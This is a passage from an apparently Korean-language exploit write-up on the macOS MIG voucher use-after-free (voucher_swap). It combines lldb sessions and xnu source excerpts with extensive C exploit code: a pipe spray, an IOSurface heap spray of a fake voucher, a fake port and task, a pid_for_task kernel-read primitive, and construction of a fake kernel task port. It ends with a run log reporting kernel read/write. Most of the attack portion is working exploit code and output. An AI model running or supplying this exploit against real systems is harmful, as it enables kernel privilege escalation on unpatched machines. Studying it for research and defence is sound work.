    2683: #endif	/* UseStaticTemplates */
    2684: 
    2685: 
    2686: 	thr_act = convert_port_to_thread(In0P->Head.msgh_request_port);
    2687: 
    2688: 	RetCode = thread_get_mach_voucher(thr_act, In0P->which, &voucher);
    2689: 	thread_deallocate(thr_act);
    2690: 	if (RetCode != KERN_SUCCESS) {
    2691: 		MIG_RETURN_ERROR(OutP, RetCode);
    2692: 	}
    2693: #if	__MigKernelSpecificCode
    2694: #endif /* __MigKernelSpecificCode */
    2695: 	OutP->voucher.name = (mach_port_t)convert_voucher_to_port(voucher);
    2696: 
    2697: 
    2698: 	OutP->Head.msgh_bits |= MACH_MSGH_BITS_COMPLEX;
    2699: 	OutP->Head.msgh_size = (mach_msg_size_t)(sizeof(Reply));
    2700: 	OutP->msgh_body.msgh_descriptor_count = 1;
    2701: 	__AfterRcvRpc(3625, "thread_get_mach_voucher")
    2702: }
```

`thread_get_mach_voucher` 함수에 브레이크포인트를 걸어 확인해보면,
`thread->ith_voucher`는 0xffffff8026187d70를 가리키며,
**스프레이에 의해 조작된 iv_refs=100이 들어가있고, iv_port는 NULL인 상태로 유효하지 않다.**

```c
(lldb) b *0xffffff8019de5560
Breakpoint 1: where = kernel`thread_get_mach_voucher at thread.c:3044, address = 0xffffff8019de5560
(lldb) c
Process 1 resuming
Process 1 stopped
* thread #1, stop reason = signal SIGTRAP
    frame #0: 0xffffff8019eda180 kernel`machine_idle at pmCPU.c:174:3 [opt]
Target 0: (kernel) stopped.
(lldb) c
Process 1 resuming
Process 1 stopped
* thread #1, stop reason = breakpoint 1.1
    frame #0: 0xffffff8019de5560 kernel`thread_get_mach_voucher(thread=0xffffff8024395370, which=2137391104, voucherp=0xffffff807a8f3d60) at thread.c:3044 [opt]
Target 0: (kernel) stopped.
(lldb) p *(thread_act_t)$rdi
(thread) $2 = {
...
  **ith_voucher = 0xffffff8026187d70**
...
}
**(lldb) p *(ipc_voucher_t)0xffffff8026187d70**
(ipc_voucher) $3 = {
  iv_hash = 0
  iv_sum = 0
  iv_refs = (ref_count = 100)
  iv_table_size = 0
  iv_inline_table = ([0] = 0, [1] = 0, [2] = 0, [3] = 0, [4] = 0, [5] = 0, [6] = 0, [7] = 0)
  iv_table = 0x0000000000000000
  iv_port = NULL
  iv_hash_link = {
    next = NULL
    prev = NULL
  }
}
```

`thread_get_mach_voucher` 함수를 호출한 이후,
0xffffff8026187d70 주소인 `thread->ith_voucher` 구조체를 다시 확인하면
**이번에는 iv_port 커널 주소가 써진 것을 볼 수 있다.**

```c
**(lldb) p *(ipc_voucher_t)0xffffff8026187d70**
(ipc_voucher) $4 = {
  iv_hash = 0
  iv_sum = 0
  iv_refs = (ref_count = 101)
  iv_table_size = 0
  iv_inline_table = ([0] = 0, [1] = 0, [2] = 0, [3] = 0, [4] = 0, [5] = 0, [6] = 0, [7] = 0)
  iv_table = 0x0000000000000000
  **iv_port = 0xffffff802a119110**
  iv_hash_link = {
    next = NULL
    prev = NULL
  }
}
(lldb) p *(ipc_port_t)0xffffff802a119110
(ipc_port) $5 = {
  ip_object = {
    io_bits = 2147483685
    io_references = 3
    io_lock_data = (interlock = 0)
  }
  ip_messages = {
    data = {
      port = {
        waitq = {
          waitq_type = 2
          ...
```

0xffffff8026187d70 주소의 iv_port가 써진 이유는 `convert_voucher_to_port` 호출 함수에 있다.

503번째 라인에서 처음으로 확인되는 것 중 하나는 바우처가 올바른 참조 카운트를 가지고 있는지 여부이다. 그 후 507번째 라인에서는 바우처의 포트가 유효한지 확인한다. **만약 유효하지 않으면, 새 포트가 할당된다.**

이는 훌륭한데, 왜냐하면 우리가 해제된 바우처를 대체하기 위해 가짜 바우처를 할당할 때, `iv_port` 포인터를 `NULL`로 유지한다면, 실제로 새로 할당된 바우처 포트(`IKOT_VOUCHER`)를 해당 바우처에 대해 사용자 공간으로 가져올 수 있기 때문이다. 그런 다음 `ith_voucher->iv_port`로 이를 참조할 수 있으며, 이는 바우처를 추가로 조작할 수 있게 해준다.

```cpp
    File: ./osfmk/ipc/ipc_voucher.c
    492: /*
    493:  * 바우처를 포트로 변환합니다.
    494:  */
    495: ipc_port_t
    496: convert_voucher_to_port(ipc_voucher_t voucher)
    497: {
    498: 	ipc_port_t	port, send;
    499: 
    500: 	if (IV_NULL == voucher)
    501: 		return (IP_NULL);
    502: 
    503: 	assert(os_ref_get_count(&voucher->iv_refs) > 0);
    504: 
    505: 	/* 필요한 경우 포트를 생성합니다. */
    506: 	port = voucher->iv_port;
    507: 	if (!IP_VALID(port)) {
    508: 		port = ipc_port_alloc_kernel(); //새로 할당됨!!!!!!!!!!!!!
    509: 		assert(IP_VALID(port));
    510: 		ipc_kobject_set_atomically(port, (ipc_kobject_t) voucher, IKOT_VOUCHER);
    511: 
    512: 		/* 경쟁에서 지면, 메모리를 해제하고 다른 사람의 포트를 가져옵니다. */
    513: 		if (!OSCompareAndSwapPtr(IP_NULL, port, &voucher->iv_port)) {
    514: 			ipc_port_dealloc_kernel(port);
    515: 			port = voucher->iv_port;
    516: 			assert(ip_kotype(port) == IKOT_VOUCHER);
    517: 			assert(port->ip_kobject == (ipc_kobject_t)voucher);
    518: 		}
    519: 	}
    520: 	
```

여기까지 오면 상황이 좋아 보인다. 
우리의 포트가 실제로 유효하다면, 이 시점부터는 100% 성공 확률을 가질 것이며, 위험한 부분은 끝났다.

## 2. kread primitive 구축 준비하기

### fakeport + faketask 파이프 스프레이

 먼저 `pipe` 함수를 사용해 프로세스 간 통신용 파이프 핸들 쌍(`fds`)을 할당하기 위해, 0x500개의 파이프를 생성한다. 이는 fake port를 쓰기 위함이다.

```c
    // pipe preparation
    void *pipebuf = malloc(pagesize);
    bzero(pipebuf, pagesize);

    int *pipefds = NULL;
    int total_pipes = 0x500;
    size_t total_pipes_size = total_pipes * 2 * sizeof(int);
    pipefds = malloc(total_pipes_size);
    bzero(pipefds, total_pipes_size);
    for (size_t i = 0; i < total_pipes; i++) 
    {
        /* 
            we arrange our pipes in pairs  
            where pipe N is a read pipe, and 
            pipe N+1 is the corresponding write pipe
        */
        pipefds[i * 2] = -1;
        pipefds[i * 2 + 1] = -1;
        
        int error = pipe(&pipefds[i * 2]);
        if (error != 0 ||
            pipefds[i * 2] < 0 ||
            pipefds[i *  + 1] < 0)
        {
            close(pipefds[i * 2]);
            close(pipefds[i * 2 + 1]);

            total_pipes = i;
            break;   
        }

        set_nonblock(pipefds[i * 2 + 1]);
    }
    INFO("total pipes created: %d\n",total_pipes);
    //
```

이후 IOSurface 스프레이를 통해 뿌릴 fake voucher를 생성한다. iv_refs는 200이며, iv_port 필드는 **예측되는** 파이프에 써둔 포트 커널주소를 의미하는데, 환경마다 곱해지는 수가 달라질 수 있다. 원본 익스플로잇 코드에서는 32(=0x20)으로 되어있었지만, 내 환경에서는 더 멀리 떨어져있었기에 0x140을 곱해주어야 했다.

```c
    mach_port_t the_one = real_port_to_fake_voucher;
    uint64_t original_port_addr = target_voucher->iv_port;

    fake_ipc_voucher_t new_voucher = (fake_ipc_voucher_t)
    {
        .iv_refs = 200,
        .iv_port = (original_port_addr & ~(pagesize - 1)) + (pagesize * 0x140),
    };
    INFO("new port addr: 0x%llx\n", new_voucher.iv_port);
```


다음으로, 커널 내의 포트 바로 뒤에 태스크 구조체를 담을 수 있도록 연속된 영역을 할당하게끔 만든다.

위조시킨 fakeport와 faketask 데이터들을 pipebuf에 복사하고, 파이프에 쓴다.

```c
    /* set up our fakeport for use later */
    kport_t *fakeport = NULL;
    fakeport = malloc(sizeof(kport_t));
    bzero((void *)fakeport, sizeof(kport_t));

    fakeport->ip_bits = IO_BITS_ACTIVE | IKOT_TASK;
    fakeport->ip_references = 100;
    fakeport->ip_lock.type = 0x11;
    fakeport->ip_messages.port.receiver_name = 1;
    fakeport->ip_messages.port.msgcount = 0;
    fakeport->ip_messages.port.qlimit = MACH_PORT_QLIMIT_LARGE;
    fakeport->ip_messages.port.waitq.flags = mach_port_waitq_flags();
    fakeport->ip_srights = 99;
#define PIPEBUF_TASK_OFFSET 0x100
    fakeport->ip_kobject = new_voucher.iv_port + PIPEBUF_TASK_OFFSET; /* place the task struct just after the kport */

    memcpy(pipebuf, (void *)fakeport, sizeof(kport_t));
    for (int i = 0; i < total_pipes; i++)
    {
        int wfd = pipefds[2 * i + 1];
        size_t written = write(wfd, pipebuf, pagesize - 1);
        
        if (written != pagesize - 1)
        {
            /* failed to write, all our pipebuffers are full & we've run out of mem */ 

            total_pipes = i;
            INFO("total_pipes is now: %d", total_pipes);
            break;
        }
    }
```

### fake new_voucher 스프레이

우리는 다시한번 OSUnserializeBinary XML Spraying 원리를 이용하여 new_voucher 데이터를 재할당시켜준다. 기존에  IOSurface_remove_value로 오버랩된 인덱스(spray_index)에 해당되는 fake voucher 모인 페이지 집합들을 free시키고 **”iv_refs=200, iv_port=fake port 데이터가 적힌 파이프 할당 예측주소” 로 구성된 fake new_voucher**로 재할당시킨다.

```c
    /* we used this smaller dict later in order to reallocate our target OSString */
    int small_dictsz = (9 * sizeof(uint32_t)) + pagesize;
    uint32_t *dict_small = malloc(small_dictsz);
    bzero((void *)dict_small, small_dictsz);

    dict_small[0] = IOSurface_id;
    dict_small[1] = 0x0;
    dict_small[2] = kOSSerializeMagic; 
    dict_small[3] = kOSSerializeEndCollection | kOSSerializeArray | 1;
    dict_small[4] = kOSSerializeEndCollection | kOSSerializeDictionary | 1;
    dict_small[5] = kOSSerializeSymbol | 5;
    dict_small[6] = transpose(spray_index); /* Key */
    dict_small[7] = 0x0;
    dict_small[8] = kOSSerializeEndCollection | kOSSerializeString | (pagesize - 1);

    uint8_t *osstring_buf = (uint8_t *)dict_small + (9 * sizeof(uint32_t));
    /* overwrite all the ports in the osstring */
    for (uintptr_t ptr = (uintptr_t)osstring_buf, end = ptr + pagesize;
         ptr + sizeof(fake_ipc_voucher_t) <= end;
         ptr += sizeof(fake_ipc_voucher_t))
    {
        bcopy((const void *)&new_voucher, (void *)ptr, sizeof(fake_ipc_voucher_t));  
    }

    INFO("realloc'ing...\n");

    sched_yield();

    struct IOSurfaceValueArgs_string request = {
        .surface_id = IOSurface_id,
        ._out1 = 0x0,
        .string_data = transpose(spray_index),
        .null = 0
    }; 
    ret = IOSurface_remove_value((struct IOSurfaceValueArgs *)&request, sizeof(request));
    if(ret == false) exit(1);

    ret = IOSurface_set_value(dict_small, small_dictsz);
    if(ret == false) exit(1);

    for (int i = 0; i < 0x10; i++)
    {
        if (i == spray_index)  
        {
            continue;
        }

        dict_small[6] = transpose(i); 

        ret = IOSurface_set_value(dict_small, small_dictsz);
        if(ret == false) exit(1);
    }
```

thread_get_mach_voucher 함수로 사용자 공간의 포트를 다시 받아온다. 이전과의 포트와 달라졌다면,  iv_port에 fakeport가 적힌 파이프 할당주소로 된 fake new_voucher로 재할당됐다는것을 의미하며 
이제 fakeport 또한 pipe write를 통해 임의로 조작할 준비가 됐다.

```c
    mach_port_t old_real_port = real_port_to_fake_voucher;
    ret = thread_get_mach_voucher(mach_thread_self(), 0, &real_port_to_fake_voucher);
    if (ret != KERN_SUCCESS)
    {
        INFO("failed to call thread_get_mach_voucher: %x %s", ret, mach_error_string(ret)); exit(1);
    }

    INFO("old port: %x\n", old_real_port);
    INFO("new port: %x\n", real_port_to_fake_voucher);

    if (old_real_port == real_port_to_fake_voucher)
    {
        INFO("failed to get new port :(\n"); exit(1);
    }

    the_one = real_port_to_fake_voucher;

    if (!MACH_PORT_VALID(the_one))
    {
        INFO("the_one is not valid :-( failed to realloc\n"); exit(1);
    }

    INFO("WE REALLY TRAPPIN OUT HERE\n");
```

```c
[*] port: 0x100707
[*] WE REALLY POSTED UP ON THIS BLOCK -- part 1 of #alwaysstayposted
[*] getting responses...
[*] found voucher!! s: 502, j: 45
[*] port: 0xffffff8031fddd88
[*] refs: 101
p1_ipc_voucher (3): 0xffffff802ddcce10
[*] total pipes created: 1280
[*] new port addr: 0xffffff803211d000
[*] realloc'ing...
[*] old port: 100707
[*] new port: e4b07
[*] WE REALLY TRAPPIN OUT HERE

iv_port가 fakeport가 적힌 파이프 주소를 가리킴, fake new_voucher 재할당 완료.
(lldb) p *(ipc_voucher_t)0xffffff802ddcce10
(ipc_voucher) $3 = {
  iv_hash = 0
  iv_sum = 0
  iv_refs = (ref_count = 200)
  iv_table_size = 0
  iv_inline_table = ([0] = 0, [1] = 0, [2] = 0, [3] = 0, [4] = 0, [5] = 0, [6] = 0, [7] = 0)
  iv_table = 0x0000000000000000
  iv_port = **0xffffff803211d000 //**fakeport가 적힌 파이프 주소
  iv_hash_link = {
    next = nullptr
    prev = nullptr
  }
}
```

`thread_get_mach_voucher` 함수를 호출하면서
`ipc_object_copyin`(osfmk/kern/thread.c:3063) 
→ `ipc_right_copyin`(osfmk/ipc/ipc_object.c:517) 함수에서 
`port->ip_srights++;` (osfmk/ipc/ipc_right.c:2008) 코드가 수행된다.

`ip_srights` 값을 비교하여
여러 파이프들 중에 fakeport(즉, 우리의 new fake_voucher 중 `iv_port`에 속한 파이프) 인덱스를 확인한다.

```c
/* find the index of the pipe buffer our fakeport overlapped with */
    int fakeport_pipe_index = 0;
    for (int i = 0; i < total_pipes; i++)
    {
        int rfd = pipefds[2 * i];
        size_t readsz = read(rfd, pipebuf, pagesize - 1);
        
        if (readsz != pagesize - 1)
        {
            INFO("failed to read idx %d\n", i);
            continue;
        }

        kport_t *iter_port = (kport_t *)pipebuf;
    
        if (iter_port->ip_srights != fakeport->ip_srights)
        {
            INFO("found our fakeport: %d\n", i);
            INFO("ip_srights: %d\n", iter_port->ip_srights);
            fakeport_pipe_index = i;

            int wfd = pipefds[2 * i + 1];
            write(wfd, pipebuf, pagesize);
        
            break;
        }
    }

    if (fakeport_pipe_index == 0)
    {
        INFO("failed to find fakeport pipe idx\n"); exit(1);
    }

    INFO("fakeport pipe index: %d\n", fakeport_pipe_index);
```

```c
[*] found our fakeport: 255
[*] ip_srights: 100
[*] fakeport pipe index: 255
```

### 파이프에 쓰인 fakeport를 제어하고 pid_for_task 함수로 커널 읽기

Mach API인 `pid_for_task` 함수는 제공된 작업 포트의 프로세스 pid를 반환한다. 

여기서 `get_bsdtask_info`가 제공된 작업 포트에서 호출되고, 그 후 `proc_pid`에서 반환된 pid가 사용자 영역으로 복사되는 것을 볼 수 있다. 중요한 점은 제공된 작업 포트나 `get_bsdtask_info`에서 반환된 프로세스에 대한 유효성 검사가 수행되지 않는다는 점이다.

```c
pid_for_task(
	struct pid_for_task_args *args)
{
	mach_port_name_t	t = args->t;
	user_addr_t		pid_addr  = args->pid;
        
        [...]

	t1 = port_name_to_task_inspect(t);

        [...]

        p = get_bsdtask_info(t1); /* Get the bsd_info entry from the task */
        if (p) {
                pid  = proc_pid(p); /* Returns p->p_pid */
                err = KERN_SUCCESS; 
        } [...]

	(void) copyout((char *) &pid, pid_addr, sizeof(int));
	return(err);
}
```

`get_bsdtask_info`와 `proc_pid` 함수를 살펴보겠다.

본질적으로, 이 호출을 통해 우리는 `task->bsd_info->p_pid` 값을 가져올 수 있다.  `task` 구조체(해당 구조체는 우리의 `fakeport` 내의 필드)를 제어할 수 있기 때문에, `bsd_info`가 가리키는 주소를 완전히 제어할 수 있다. 따라서 `bsd_info` 포인터를 조작함으로써 32비트 커널 읽기가 가능하다. 64비트 값을 읽어야 한다면, 두 개의 인접한 32비트 읽기를 사용한 후 값을 결합하여 구하면 된다.

```c
void  *get_bsdtask_info(task_t t)
{
    /* mov     rax, [t+380h] ... */
    return(t->bsd_info);
}

int
proc_pid(proc_t p)
{
    if (p != NULL)
        /* mov     eax, [p+60h] */
        return (p->p_pid);
    return -1;
}
```

우리는 이미 fake port를 스프레이할때 
fake task를 fake port의 `ip_kobject` 필드에 배치해두었고(정확히는 `fake port addr + 0x100` 위치임),
fake port의 `ip_bits` 필드를 `IO_BITS_ACTIVE | IKOT_TASK`로 설정해두었다. 

`ip_bits` 필드를 해당값으로 지정한 이유는 우리의 `ipc_port`가 task를 나타내는 포트임을 표시하며, 이를 통해 `pid_for_task`와 같은 호출을 사용할 수 있게 해준다.

```c
    /* set up our fakeport for use later */
    kport_t *fakeport = NULL;
    fakeport = malloc(sizeof(kport_t));
    bzero((void *)fakeport, sizeof(kport_t));

    **fakeport->ip_bits = IO_BITS_ACTIVE | IKOT_TASK;**
    fakeport->ip_references = 100;
    fakeport->ip_lock.type = 0x11;
    fakeport->ip_messages.port.receiver_name = 1;
    fakeport->ip_messages.port.msgcount = 0;
    fakeport->ip_messages.port.qlimit = MACH_PORT_QLIMIT_LARGE;
    fakeport->ip_messages.port.waitq.flags = mach_port_waitq_flags();
    fakeport->ip_srights = 99;
#define PIPEBUF_TASK_OFFSET 0x100
    **fakeport->ip_kobject = new_voucher.iv_port + PIPEBUF_TASK_OFFSET; /* place the task struct just after the kport */**

    memcpy(pipebuf, (void *)fakeport, sizeof(kport_t));
```

이제 마지막으로 커널 읽기를 위해 fake task 내용을 구성한다. 
`ref_count`값을 0xff로 만든다음,
`bsd_info` 주소를 제어하여 특정 커널 주소를 가리키게 만들어 커널 읽기 4바이트 매크로를 구성한다.

현재 읽힐 대상 주소인 `original_port_addr` 주소는 fake port인 `ipc_port` 구조체이며 `ip_object->io_bit`에 해당된다. 읽으면 `IO_BITS_ACTIVE | IKOT_VOUCHER` 값인 `0x80000025`이 된다.

```c
    INFO("starting kreads...\n");

    /* set up the fake task buf for use with the pid_for_task read primitive */
    int rfd = pipefds[2 * fakeport_pipe_index];
    read(rfd, pipebuf, pagesize);

    ktask_t *fake_task = (ktask_t *)((uint64_t)pipebuf + PIPEBUF_TASK_OFFSET);
    fake_task->ref_count = 0xff;
    
    int wfd = pipefds[2 * fakeport_pipe_index + 1];
    write(wfd, pipebuf, pagesize);

    #define off_task_bsd_info 0x380
    uint64_t *read_addr_ptr = (uint64_t *)((uint64_t)fake_task + off_task_bsd_info);

    #define off_proc_p_pid 0x60
    
    #define rk32(addr, value)\
    do {\
    int rfd = pipefds[2 * fakeport_pipe_index];\
    read(rfd, pipebuf, pagesize);\
    *read_addr_ptr = addr - off_proc_p_pid;\
    int wfd = pipefds[2 * fakeport_pipe_index + 1];\
    write(wfd, pipebuf, pagesize);\
    pid_for_task(the_one, (int *)&value);\
    } while (0)

        uint32_t read64_tmp;

    #define rk64(addr, value)\
    do {\
    rk32(addr + 0x4, read64_tmp);\
    rk32(addr, value);\
    value = value | ((uint64_t)read64_tmp << 32);\
    } while (0)

    INFO("testing the first read...\n");

    uint32_t first_read_val = 0x0;
    rk32(original_port_addr, first_read_val);
    INFO("first read val = 0x%x\n", first_read_val);
```

```c
[*] starting kreads...
[*] testing the first read...
[*] first read val = 0x80000025
```

### task port 스프레이하기

파이프 할당 주소는 쌍파이프 0x500으로 해두었기 때문에 커널 할당 크기는 0x1000이다.
파이프 할당주소와 인접하게 만들기 위해서 0x1000 같은 크기로 커널 할당 주소에 task port들로 채워지게 만든다. 스프레이는 0x1000번 정도 수행해줬다.

```c
//spray task ports
    mach_port_t p[0x1000];
    for(int i = 0; i < 0x1000; i++) {
        p[i] = fill_kalloc_with_port_pointer(mach_task_self(), 0x1000/sizeof(uint64_t), MACH_MSG_TYPE_COPY_SEND);
    }

```

fake port 파이프 할당주소는 0xffffff802911d000이며,

```c
[*] refs: 101
[*] total pipes created: 1280
[*] new port addr: 0xffffff802911d000
```

fake port 파이프 할당주소 + 0x50000 ~ +0x160000에 전부다 task port 커널 주소가 채워져있었다.

```c
(lldb) x/4gx 0xffffff802911d000+0x400000
0xffffff802951d000: 0x0000006480000002 0x0000000000000000
0xffffff802951d010: 0x0000000000000011 0x0000000000000066
(lldb) x/4gx 0xffffff802911d000+0x500000
0xffffff802961d000: 0xffffff8021ce52a0 0xffffff8021ce52a0
0xffffff802961d010: 0xffffff8021ce52a0 0xffffff8021ce52a0
...
(lldb) x/4gx 0xffffff802911d000+0x1500000
0xffffff802a61d000: 0xffffff8021ce52a0 0xffffff8021ce52a0
0xffffff802a61d010: 0xffffff8021ce52a0 0xffffff8021ce52a0
(lldb) x/4gx 0xffffff802911d000+0x1600000
0xffffff802a71d000: 0xffffff8021ce52a0 0xffffff8021ce52a0
0xffffff802a71d010: 0xffffff8021ce52a0 0xffffff8021ce52a0
```

fake port 파이프 할당주소 기준 **+ 0x50000 ~ +0x160000 해당 범위** 사이의 값을 읽기만 하면 
자기 프로세스의 task port를 가져올 수 있다.

거의 중간 범위에 위치한 fake port + 0xa0000으로 task port를 가져온다.

```c
//leak our task's ipc_port
    uint64_t self_port_addr = 0;
    rk64(new_voucher.iv_port + 0xa00000, self_port_addr);
    INFO("our taskport = 0x%llx\n", self_port_addr);
```

### tfp0용 fake kernel port/fask kernel task 만들기

가져온 task port는 ipc_port 구조체이기에, ipc_kobject(=kdata.kobject) 필드를 읽으면, 
이는 곧 task 구조체 주소가 된다.

마찬가지로 `proc`는 양방향 연결 리스트이므로, 현재 프로세스부터 시작해 앞쪽으로 `pid=0`까지 순회할 수 있다.. 구조체 필드에 접근하여 커널 태스크에서 `vm_map`을 가져오자.

```c
// obtain our task addr; 
    uint64_t struct_task = 0;
    rk64(self_port_addr + 0x68, struct_task);   //0x68 = p/x offsetof(struct ipc_port, kdata.kobject)
    INFO("our task = 0x%llx\n", struct_task);

    uint64_t kernel_vm_map = 0;
    
    while (struct_task != 0) {
        uint64_t bsd_info;
        rk64(struct_task + 0x380, bsd_info);    // 0x380 = p/x offsetof(struct task, bsd_info)
        if (!bsd_info) {
            printf("[-] kernel read failed!\n");
            exit(1);
        }
        
        uint32_t pid;
        rk64(bsd_info + 0x60, pid); //0x60 = p/x offsetof(struct proc, p_pid)
        
        if (pid == 0) {
            uint64_t vm_map;
            rk64(struct_task + 0x20, vm_map);   //0x20 = p/x offsetof(struct task, map)
            if (!vm_map) {
                printf("[-] kernel read failed!\n");
                exit(1);
            }
            
            kernel_vm_map = vm_map;
            break;
        }
        
        rk64(struct_task + 0x30, struct_task); // 0x30 = p/x offsetof(struct task, tasks.prev)
    }
    INFO("kernel_vm_map = 0x%llx\n", kernel_vm_map);
```

그리고 가져온 task port 중 `ip_receiver` 필드를 읽으면 `ipc_space_kernel` 주소를 가져올 수 있다.

```c
    uint64_t ipc_space_kernel = 0;
    rk64(self_port_addr + 0x60, ipc_space_kernel);   //0x60 = p/x offsetof(struct ipc_port, data.receiver)

    INFO("ipc_space_kernel = 0x%llx\n", ipc_space_kernel);
```

```c
(lldb) x/4gx 0xffffff802911d000+0x1600000
0xffffff802a71d000: 0xffffff8021ce52a0 0xffffff8021ce52a0
0xffffff802a71d010: 0xffffff8021ce52a0 0xffffff8021ce52a0

(lldb) p/x *(ipc_port_t)0xffffff8021ce52a0
(ipc_port) $52 = {
...
  data = {
    receiver = 0xffffff801fbb3fc0
...

(lldb) p/x ipc_space_kernel
(ipc_space_t) $55 = 0xffffff801fbb3fc0
```

이제 모든 준비는 끝났다.

가짜 작업 구조체(fake task struct)를 만들기 위해서 하드코딩된 데이터를 사용하고, 커널의 `vm_map` 포인터를 삽입한다. 또, fake port를 커널 task 포트로 바꾸기 위해 `ip_receiver`를 ipc_space_kernel 주소로 업데이트해준다.

그려면 이제 합법적인 커널 태스크 포트를 가지게 된다!

```c
    //prepare new port/task
    rfd = pipefds[2 * fakeport_pipe_index];
    read(rfd, pipebuf, pagesize);

    fake_task->ip_lock.data = 0x0;
    fake_task->ip_lock.type = 0x22;
    fake_task->active = 1;
    fake_task->map = kernel_vm_map;
    *(uint32_t *)((uint64_t)fake_task + 0xd8) = 1; // 0xd8 = p/x offsetof(struct task, itk_self)

    ((kport_t *)pipebuf)->ip_receiver = ipc_space_kernel;

    /* update the pipebuffer with new port/task */
    wfd = pipefds[2 * fakeport_pipe_index + 1];
    write(wfd, pipebuf, pagesize);

    //kernel r/w achieved!
    INFO("kernel r/w achieved!\n");
    tfp0 = the_one;
```

이제 완전히 작동하는 kernel task port를 가지고 있고 Mach API를 호출하여 
메모리를 읽고 쓰거나 새로 할당/할당해제할 수 있다.

```c
    uint64_t addr = kalloc(8);
    
    if (!addr) {
        printf("[-] seems like tfp0 port didn't work?\n");
        exit(1);
    }
    
    printf("[*] allocated: 0x%llx\n", addr);
    kwrite64(addr, 0x4141414141414141);
    uint64_t readb = kread64(addr);
    kfree(addr, 8);

    printf("[*] read back: 0x%llx\n", readb);
```

## Exploit result

```c
seos-iMac-Pro% ./exp 
[*] page size: 0x1000, kr=(os/kern) successful
[*] IOSurface_init success, IOSurface_id=0x4
[*] got gc at 0 -- breaking, t1-t0: 21310253
[*] port: 0x114707
[*] WE REALLY POSTED UP ON THIS BLOCK -- part 1 of #alwaysstayposted
[*] getting responses...
[*] found voucher!! s: 598, j: 36
[*] port: 0xffffff802e50e6b8
[*] refs: 101
[*] total pipes created: 1280
[*] new port addr: 0xffffff802e64e000
[*] realloc'ing...
[*] old port: 114707
[*] new port: dae07
[*] WE REALLY TRAPPIN OUT HERE
[*] found our fakeport: 91
[*] ip_srights: 100
[*] fakeport pipe index: 91
[*] starting kreads...
[*] testing the first read...
[*] first read val = 0x80000025
[*] our taskport = 0xffffff802a7da150
[*] our task = 0xffffff802a8043c0
[*] kernel_vm_map = 0xffffff801c76e5f0
[*] ipc_space_kernel = 0xffffff801fbb3fc0
[*] kernel r/w achieved!
[*] allocated: 0xffffff807459d000
[*] read back: 0x4141414141414141
[*] done, press any key for cleanup
```

## 참고한 자료 출처

Exploit Code

[https://github.com/PsychoTea/machswap2](https://github.com/PsychoTea/machswap2)

[https://project-zero.issues.chromium.org/issues/42450804](https://project-zero.issues.chromium.org/issues/42450804) 첨부파일

Writeup

[https://project-zero.issues.chromium.org/issues/42450804](https://project-zero.issues.chromium.org/issues/42450804)

[https://github.com/bazad/presentations/blob/master/TyphoonCon-2019-voucher_swap.pdf](https://github.com/bazad/presentations/blob/master/TyphoonCon-2019-voucher_swap.pdf)

[https://web.archive.org/web/20220720022145/https://blogs.360.cn/post/IPC Voucher UaF Remote Jailbreak Stage 2.html](https://web.archive.org/web/20220720022145/https://blogs.360.cn/post/IPC%20Voucher%20UaF%20Remote%20Jailbreak%20Stage%202.html)

[https://googleprojectzero.blogspot.com/2019/08/in-wild-ios-exploit-chain-5.html](https://googleprojectzero.blogspot.com/2019/08/in-wild-ios-exploit-chain-5.html)

[https://googleprojectzero.blogspot.com/2019/01/voucherswap-exploiting-mig-reference.html](https://googleprojectzero.blogspot.com/2019/01/voucherswap-exploiting-mig-reference.html)